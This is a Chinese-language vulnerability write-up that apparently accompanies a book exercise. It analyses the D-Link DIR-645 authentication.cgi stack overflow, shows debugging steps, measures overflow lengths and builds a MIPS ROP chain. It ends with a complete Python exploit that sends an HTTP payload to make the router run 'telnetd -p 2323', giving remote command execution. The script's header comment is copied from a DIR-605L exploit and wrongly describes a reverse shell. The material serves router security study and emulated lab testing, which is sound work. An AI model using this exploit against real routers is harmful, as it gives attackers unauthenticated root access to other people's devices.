






# 一：固件分析
## 固件下载
```
ftp://ftp2.dlink.com/PRODUCTS/DIR-645/REVA/DIR645_FIRMWARE_1.03.ZIP
```
## 漏洞描述
```
https://www.exploit-db.com/exploits/33862
This module exploits an remote buffer overflow vulnerability on sever a D-Link routers.
The vulnerability exists in the handling of HTTP queries to the authentication.cgi with
long password values. The vulnerability can be exploitable withouauthentication. This
module has been tested successfully on D-Link firmware DIR645A1_FW103B11Other firmwares
such as the DIR865LA1_FW101b06 and DIR845LA1_FW100b20 are also vulnerable.

```
从描述中可知，在几款路由器中存在远程执行代码的漏洞，究其原因在于authentication.cgi模块没有处理好http请求中的超长密码导致栈溢出漏洞。
## 漏洞的成因分析
### 1:定位漏洞文件
```
//切换到固件根目录
find ./ -name '*.cgi'  //随后找到漏洞文件authentication.cgi
ll authentication.cgi  //确认其指向
./web/authentication.cgi -> /htdocs/cgibin
```
### 2:定位漏洞位置
#### 首先使用ida加载cgibin文件。
#### 1：根据exploit-db上对于该漏洞的描述，该漏洞是出在对于身份验证的时候，那么第一种方法自认为可以在函数列表中搜索相关的函数，比如搜索关键字“authentication”，此时就会发现一共有三个函数，分别是：authentication_result authentication authenticationcgi_main，我们可以根据函数中是否存在http请求处理的关键字符串（GET POST CONTENT_TYPE CONTENT_LENGTH等）来定位到底是哪一个函数出了问题。很显然出问题的就是函数authenticationcgi_main。
#### 2：根据漏洞描述，在处理password的时候出现问题，那我们也可以从字符串入手，同样使用排除法可以得到漏洞函数。
#### 3：定位到漏洞函数之后，我们可以采用书上的脚本文件（run_cgi.sh）来具体的定位漏洞位置。

```
#!/bin/bash
# run_cgi.sh
INPUT="$1"
TEST="$2"
LEN=$(echo -n "$INPUT" | wc -c)
PORT="1234"
echo $(which qemu-mipsel-static)
cp $(which qemu-mipsel-static) ./qemu
echo $TEST
echo "$INPUT" | chroot ./ ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E REQUEST_URI="/authentication.cgi" -E REMOTE_ADDR="192.168.1.1" -g $PORT /htdocs/web/authentication.cgi 2>/dev/null
echo 'run ok'
rm -f ./qemu
```
需要说明的是在执行这个脚本的时候可能会出现各种问题，具体可以参考问题阐述。

#### 4：快速定位具体位置的方法如书中描述，在hex窗口定位到ra存放的地址，之后采用单步方式运行并观察ra的地址何时被覆盖。那么最后可以定位到read函数。

#### 5：问题说明
##### 测试串的长度区间
当我们运行 ./run_cgi.sh `python -c "print 'uid=1234+password='+'A'*0x600"` "1234" 会发现程序还没到返回的时候就出现了异常。0day一书中有提到是因为测试的串过长的问题，其提到的解决方法是尝试减小串的长度，那有没有一个可供参考的区间范围呢？

通过调试发现程序异常出现在0040A494位置处的getenv调用，通过单步跟踪最后发现出现在如下地方(或者直接在getenv处单步步过，程序会自动断在异常位置)
```
$a0 "HTTP_COOKIE"
$a1	????(0x41414141)
$a2 "HTTP_COOKIE" len   //这是其参数

loc_7F76C894
beqz    $a2, locret_7F76C8B8
addiu   $a3, $a2, -1         //count-1
lbu     $v1, 0($a0)			 //get one byte from buffer
lbu     $v0, 0($a1)			 //get one byte from $a1      ！！！！
addiu   $a0, 1				 //pBuffer+1
subu    $v0, $v1, $v0		 //byte-$v0
addiu   $a1, 1
beqz    $v0, loc_7F76C894
```
通过发现是应为参数$参数$a1被我们给覆盖掉了导致从中取值的时候出现异常。那我们接下来可以回溯一下$a1从何而来。
```
MEMORY:7F78A0BC move    $t9, $s4
MEMORY:7F78A0C0 jalr    $t9                    //异常位置所在函数
MEMORY:7F78A0C4 nop
MEMORY:7F78A0C8 lw      $gp, 0x10($sp)
MEMORY:7F78A0CC bnez    $v0, loc_7F78A0EC
MEMORY:7F78A0D0 addu    $v1, $s0, $s1
MEMORY:7F78A0D4 lb      $v0, 0($v1)
MEMORY:7F78A0D8 bnel    $v0, $s3, loc_7F78A0F0
MEMORY:7F78A0DC lw      $s0, 0($s2)
MEMORY:7F78A0E0 addiu   $v0, $s1, 1
MEMORY:7F78A0E4 b       loc_7F78A108
MEMORY:7F78A0E8 addu    $v0, $s0, $v0
MEMORY:7F78A0EC  # ---------------------------------------------------------------------------
MEMORY:7F78A0EC
MEMORY:7F78A0EC loc_7F78A0EC:                           
MEMORY:7F78A0EC                                     
MEMORY:7F78A0EC lw      $s0, 0($s2)            //$s0 = $s2
MEMORY:7F78A0F0
MEMORY:7F78A0F0 loc_7F78A0F0:                            # CODE XREF: MEMORY:7F78A0D8j
MEMORY:7F78A0F0 move    $a0, $s5
MEMORY:7F78A0F4 move    $a1, $s0               //$a1 = $s0
```
很显然我们只要知道$s2是多少即可确定我们最长的测试串为多少，同时我们需要覆盖掉ra，只要知道ra存放的位置，即可确定最短的测试串长度。这里建议采用调试的方式记录$s2和$ra的堆栈地址，同时不要忘记记录read函数buffer的地址pbuffer。
```
$ra-pbuffer< len <$s2-pbuffer
//如下是我在调试中的记录位置
pbuffer:7fffef90
$s2:7ffff49c
$ra:7ffff398

1032<len<1292

```
##### 二次溢出点问题
在0day一书中提到，在read函数之后有strncpy函数再次复制了password到堆栈中，为了排除二次溢出点，我们依然采用上述方式验证是否真的存在二次溢出点。
```
strncpy函数
定位"id="和"password",之后获取后面的值到堆栈中
7fffea88 将id复制到此处
7fffeb08 将password复制到此处
如果password想要覆盖掉ra的话串的长度需要7ffff398-7fffeb08=2192，很显然，上面已经对其长度做出了限制，所以并不能覆盖ra，其也不能够覆盖我们后面要用的$s0,$s5，所以可以断定溢出点就是read函数。
```


##### POST请求必须是"id=xxx&password=xxx"
在程序0x40b550位置处有说明，通过在post请求中使用strstr查找定位"id="以及"password="，随后获取其后面的值并复制到栈中，至于为什么会用"&"进行连接，主要是因为程序使用0x26(&)对post请求进行分割区分id和password，可见程序0x0040B53C和0x0040B590

## 漏洞利用
这里采用在服务器开启telnet端口的方式进行利用。
### 确认动态库
我们使用动态库来构建ROP的原因在于，高地址总能更好的避免0x00造成的截断。
#### 1：安装gdb-multiarch调试多架构程序
```
sudo apt-get install gdb-multiarch
```
#### 2：安装gdb插件pwndbg
```
具体的安装使用方法见仓库
https://github.com/pwndbg/pwndbg
```
#### 3：具体的步骤
```
./run_cgi.sh `python -c "print 'uid=1234+password='+'A'*1060"` "1234"    //运行程序等待调试
//另启终端
gdb-multiarch ./htdocs/cgibin   //开启调试,并配置调试选项
    set architecture mips
    set endian little
    target remote :1234
b *0x40b024                    //在authenticationcgi_main处下断点
c                              //继续运行，这两步主要是为了让程序加载动态库
vmmap                          //查看内存布局
```

可以看到程序调用了/lib/libuClibc-0.9.30.1.so库文件，并且其加载基址是0x7f738000（偏移为零的位置）。之后我们可以打开这个库文件搜索函数system，得到其相对偏移offset（0x53200），将其加上基址即可得到绝对地址0x7f78b200。当然也可以不用这么复杂，直接使用GDB命令``` disas system ```即可得到绝对地址。

### 构造ROP
#### 1 如上所述，我们已经能够成功劫持PC，并可以在指定偏移处填充指定数据。根据漏洞利用的方式是执行system函数来开启telnet服务，那我们第一想到的就是在ra处跳转到system函数，随之而来的问题就是其参数该如何传递，所以我们需要一个gadgets替我们传递参数，我们希望在动态库中查找一个能在栈中取参数到$a0的，之后在跳转到system的调用。使用插件MIPS ROP FINDER中的函数mipsrop.stackfinder(),之后选取一段gadgets(0x159cc)如下：
```
.text:000159CC                 addiu   $s5, $sp, 0x170+var_160
.text:000159D0                 move    $a1, $s3
.text:000159D4                 move    $a2, $s1
.text:000159D8                 move    $t9, $s0
.text:000159DC                 jalr    $t9 ; mempcpy
.text:000159E0                 move    $a0, $s5
```
为了让其执行system,我们需要替换掉$s0为system函数地址，替换掉$s5也就是 $sp+0x10(这里的$sp不在是当前函数的$sp了，由于流水线效应，在执行跳转返回的时候其后面指令已经执行，当前函数栈就已经平栈了) 为要执行的命令。为了防止混乱，先看下函数authenticationcgi_main结尾处：
```
.text:0040BCB0                 lw      $ra, 0xF90+var_4($sp)
.text:0040BCB4                 lw      $gp, 0xF90+var_F78($sp)
.text:0040BCB8                 move    $v0, $zero
.text:0040BCBC                 lw      $fp, 0xF90+var_8($sp)
.text:0040BCC0                 lw      $s7, 0xF90+var_C($sp)
.text:0040BCC4                 lw      $s6, 0xF90+var_10($sp)
.text:0040BCC8                 lw      $s5, 0xF90+var_14($sp)
.text:0040BCCC                 lw      $s4, 0xF90+var_18($sp)
.text:0040BCD0                 lw      $s3, 0xF90+var_1C($sp)
.text:0040BCD4                 lw      $s2, 0xF90+var_20($sp)
.text:0040BCD8                 lw      $s1, 0xF90+var_24($sp)
.text:0040BCDC                 lw      $s0, 0xF90+var_28($sp)  //替换掉$s0是可以做到的
.text:0040BCE0                 jr      $ra
.text:0040BCE4                 addiu   $sp, 0xF90
```
很明显这一段代码在还原相关寄存器的值，由于是从堆栈中取值，所以我们是可以通过溢出操控的。问题在于，当我们使用system地址覆盖$s0的时候，后面的数据由于地址低位的0的存在导致读不到栈中，会导致利用失败，这就导致我们需要另寻他法。图解如下：


#### 2 既然上述直接调用行不通，我们可以将system函数减一就可以避免低位为零的尴尬，同时寻找一个将$s0+1的调用序列即可，使用插件mipsrop.find("addiu $s0,1")在动态库中获取，我们选用偏移为0x158c8处的序列调用：
```
.text:000158C8                 move    $t9, $s5
.text:000158CC                 jalr    $t9
.text:000158D0                 addiu   $s0, 1
```
上面的序列中我们需要将$s5替换为0x159cc的绝对地址，并将$ra替换为偏移为0x158c8的绝对地址即可。图解如下：



### 完整exp
```
#!/usr/bin/env python
#####################################################################################
# Exploit for the DIR-605L CAPTCHA login stack based buffer overflow
#vulnerability. # Spawns a reverse root shell to 192.168.1.100 on port
#8080. # Tested against firmware versions 1.10, 1.12 and 1.13. # #
### 06-October-2012
#####################################################################################
 
import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
 
class MIPSPayload:
    BADBYTES = [0x00]
    LITTLE = "little"
    BIG = "big"
    FILLER = "A"
    BYTES = 4
 
    def __init__(self, libase=0, endianess=LITTLE, badbytes=BADBYTES):
        self.libase = libase
        self.shellcode = ""
        self.endianess = endianess
        self.badbytes = badbytes
 
    def rand_text(self, size):
        str = ''
        chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
        length = len(chars) - 1
        random = Random()
        for i in range(size):
            str += chars[random.randint(0,length)]
        return str
 
    def Add(self, data):
        self.shellcode += data
 
    def Address(self, offset, base=None):
        if base is None:
            base = self.libase
        return self.ToString(base + offset)
 
    def AddAddress(self, offset, base=None):
        self.Add(self.Address(offset, base))
 
    def AddBuffer(self, size, byte=FILLER):
        self.Add(byte * size)
 
    def AddNops(self, size):
        if self.endianess == self.LITTLE:
            self.Add(self.rand_text(size))
        else:
            self.Add(self.rand_text(size))
 
    def ToString(self, value, size=BYTES):
        data = ""
        for i in range(0, size):
            data += chr((value >> (8*i)) & 0xFF)
        if self.endianess != self.LITTLE:
            data = data[::-1]
        return data
 
    def Build(self):
        count = 0
        for c in self.shellcode:
            for byte in self.badbytes:
                if c == chr(byte):
                    raise Exception("Bad byte found in shellcode at offset %d: 0x%.2X" % (count, byte))
            count += 1
        return self.shellcode
 
    def Print(self, bpl=BYTES):
        i = 0
        for c in self.shellcode:
            if i == 4:
                print ""
                i = 0
            sys.stdout.write("\\x%.2X" % ord(c))
            sys.stdout.flush()
            if bpl > 0:
                i += 1
        print "\n"
 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        #just for DIR645
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        if data is not None:
            data = self.Encode(data)
        #print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    libc = 0x2aaf8000    # so动态库的加载基址
    target = {
        "1.03"  :   [
            0x531ff,    # 伪system函数地址（只不过-1了，曲线救国，避免地址出现00截断字符
            0x158c8,    # rop chain 1（将伪地址+1，得到真正的system地址，曲线救国的跳板
            0x159cc,    # rop chain 2（执行system函数，传参cmd以执行命令
            ],
        }
    v = '1.03'
    cmd = 'telnetd -p 2323'        # 待执行的cmd命令：在2323端口开启telnet服务
    ip = '192.168.0.1'        # 服务器IP地址//here
 
    # 构造payload
    payload = MIPSPayload(endianess="little", badbytes=[0x0d, 0x0a])
 
    payload.AddNops(1011)                # filler # 7. 填充1011个字节，$s0偏移为1104，129行target数组中地址只占了3，04-3=01
    payload.AddAddress(target[v][0], base=libc)    # $s0
    payload.AddNops(4)                            # $s1
    payload.AddNops(4)                            # $s2
    payload.AddNops(4)                            # $s3
    payload.AddNops(4)                            # $s4
    payload.AddAddress(target[v][2], base=libc)    # $s5
    payload.AddNops(4)                            # unused($s6)
    payload.AddNops(4)                            # unused($s7)
    payload.AddNops(4)                            # unused($gp)
    payload.AddAddress(target[v][1], base=libc)    # $ra
    payload.AddNops(4)                            # fill
    payload.AddNops(4)                            # fill
    payload.AddNops(4)                            # fill
    payload.AddNops(4)                            # fill
    payload.Add(cmd)                # shellcode
 
    # 构造http数据包
    pdata = {
        'uid'       :   '3Ad4',
        'password'  :   'AbC' + payload.Build(),
        }
    header = {
        'Cookie'        : 'uid='+'3Ad4',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('authentication.cgi', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)
```
### 漏洞测试
使用firmadyne工具模拟路由器运行成功

使用exp对其进行攻击，成功

